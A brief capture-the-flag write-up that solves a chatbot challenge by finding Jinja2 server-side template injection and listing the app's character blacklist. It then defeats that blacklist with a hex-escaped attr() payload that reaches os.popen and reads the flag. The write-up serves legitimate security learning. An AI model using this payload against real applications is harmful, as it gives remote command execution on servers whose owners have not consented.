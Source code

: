 # Unintelligible-Chatbot

After realizing it was a SSTI chall after using `{{7*7}}` as input and getting 49 as output, I went for RCE but saw that it was blocking most of the common chars like `_ . [ ] join`. <br>

![image](https://github.com/user-attachments/assets/6ee767a8-8781-4129-8352-07b4c3294f4c)

Some of these characters and words are blacklisted:
> '#' <br>
> % <br>
> [] <br>
> _ <br>
> config <br>
> dict <br>
> subclasses <br>

I then just ripped off the following payload from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection).

```py
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat${IFS}flag')|attr('read')()}}
```
![image](https://github.com/user-attachments/assets/035fd0a6-f71a-47e2-842b-faf4c98cd29b)

ls -> cat flag

## Flag

`flag{n07_4n07h3r_5571_ch4ll3n63}`
